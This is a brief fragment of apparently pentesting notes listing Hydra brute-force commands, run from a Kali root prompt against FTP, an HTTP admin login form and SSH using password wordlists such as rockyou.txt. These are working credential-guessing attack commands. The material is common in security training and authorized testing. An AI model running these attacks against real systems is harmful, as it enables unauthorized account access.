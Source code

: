 <pre>
root@kali:~# hydra -t 1 -l admin -P /root/Desktop/password.lst -vV <IP> ftp
</pre>

- Bruteforcing through Hydra:
  - hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

  - hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://10.0.0.1
